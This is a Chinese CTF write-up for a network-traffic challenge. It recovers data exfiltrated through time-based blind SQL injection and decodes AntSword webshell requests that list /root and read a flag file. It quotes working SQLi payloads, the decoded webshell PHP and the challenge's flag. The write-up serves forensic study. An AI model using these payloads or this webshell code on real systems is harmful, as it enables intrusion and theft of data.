 ```yaml
---
sort: 2
---
```


# sqlinject

## 0x00 题面

该题为流量题, [题目链接](D:\ctf\mise\sqlinject\ctf.pcapng)

## 0x01 思路

粗略看一遍数据包, 发现是一题审计 SQL 注入+webshell 流量的题目. 逐一追踪数据流查看:
![](vx_images/5527111117363.png)
![](vx_images/2127514137529.png)

发现了 sql 注入的 payload, 解码后如下所示:

```
1234' and if(ascii(substr((select group_concat(hakcer) from hacker),1,1))=97,sleep(3),1) and '&p=123
1234' and if(ascii(substr((select group_concat(hakcer) from hacker),1,1))=98,sleep(3),1) and '&p=123
```

显然, 这是一个基于时间的注入, 攻击者从 hack 数据表中读取数据, 注入成功后服务器会延时 3s, 因此我们可以根据时间戳判断攻击者注入的得到的数据:
![](vx_images/3442220130198.png)
在上图中, 就是注入成功的例子, 攻击者获取到了 hack 表中字段的第一个字符的 ascii 码为`98`, 即字符`b`

为了能批量寻找注入成功的字符, 我们使用`tshark`提取数据:

```
tshark -r ctf.pcapng -T fields -e frame.time_relative -e urlencoded-form.value | tr -s '\n'  | grep select > res
```

提取出的数据如下:
![](vx_images/2804235126753.png)
我们只需要判断当时间戳与下个时间戳间隔大于 3s 时, 这个数据包的 payload 就注入成功了, 然后记录此 payload 中的字符 ascii 码即可, 攻击者注入了两个表, `hakcer`和`hint`, 编写如下脚本提取数据:

```python
with open('res', 'r') as f:
    content = f.readlines()
    hacker = ""
    hint = ""
    # content = content.replace('\x00', '')
    for i in range(len(content) - 1):
        # print(content[i].split(' ')[0])
        payload = content[i].split('\x09')[1]
        if float(content[i+1].split('\x09')[0]) - float(content[i].split('\x09')[0]) >= 3:
            idx1 = payload.find("))=") + 3
            idx2 = payload.find(",sleep")
            if 'hakcer' in payload:
                hacker += chr(int(payload[idx1:idx2]))
            else:
                hint += chr(int(payload[idx1:idx2]))

print(hacker)
print(hint)
```

![](vx_images/3793342142507.png)

发现 hacker 表里, 为`backd00r.php`, 怀疑是 webshell, hint 表中只有一部分 flag, 于是在数据包中搜索`backd00r.php`, 发现了如下数据流:
![](vx_images/1438446160387.png)
显然, 这是蚁剑马的 webshell 特征, 复制解码后查看如下:

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out)
{
    return $out;
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "feabf8f5a3";
    echo @asenc($output);
    echo "402a78405ac";
}
ob_start();
try {
    $D = base64_decode(substr($_POST["bd6d05dc659984"], 2));
    $F = @opendir($D);
    if ($F == NULL) {
        echo ("ERROR:// Path Not Found Or No Permission!");
    } else {
        $M = NULL;
        $L = NULL;
        while ($N = @readdir($F)) {
            $P = $D . $N;
            $T = @date("Y-m-d H:i:s", @filemtime($P));
            @$E = substr(base_convert(@fileperms($P), 10, 8), -4);
            $R = "	" . $T . "	" . @filesize($P) . "	" . $E . "
    ";
            if (@is_dir($P)) $M .= $N . "/" . $R;
            else $L .= $N . $R;
        }
        echo $M . $L;
        @closedir($F);
    };
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();
//&bd6d05dc659984=kNL3Jvb3Qv
```

发现其功能为先 base64 解码第二位开始的 POST 参数`bd6d05dc659984`: `L3Jvb3Qv`, 解码结果为`/root`, 再执行`readdir`. 最终效果为读取`/root`目录下的文件.

依次审阅数据包, 发现如下信息:
![](vx_images/90308167991.png)
格式化代码之后如下:

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out)
{
    return $out;
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "f359f";
    echo @asenc($output);
    echo "b616dec";
}
ob_start();
try {
    $F = base64_decode(substr($_POST["bd6d05dc659984"], 2));
    $P = @fopen($F, "r");
    echo (@fread($P, filesize($F) ? filesize($F) : 4096));
    @fclose($P);;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();//&bd6d05dc659984=ItL2hvbWUvaGFuemhlL0YxYWdnZw==
```

以上代码的作用是读取`/home/hanzhe/F1aggg`文件, 怀疑里面有 flag, 于是将返回包中的数据进行 base64 解码:

```
SlJMVktNQ09OSlJYSVRTVUlGNUU0MkpRR05NWFUzREpKUktFU05DT0dKTVRFVDJFS0UyRlVSQ1dOVkdUR01CNQ==
|
↓base64 decode
JRLVKMCONJRXITSUIF5E42JQGNMXU3DJJRKESNCOGJMTET2EKE2FURCWNVGTGMB5
|
↓base32 decode
LWU0NjctNTAzNi03YzliLTI4N2Y2ODQ4ZDVmM30=
|
↓base64 decode
-e467-5036-7c9b-287f6848d5f3}
```

和通过 sql 注入得到数据进行拼接, 获取到 flag:

```
flag{a3eb0ff8-e467-5036-7c9b-287f6848d5f3}
```
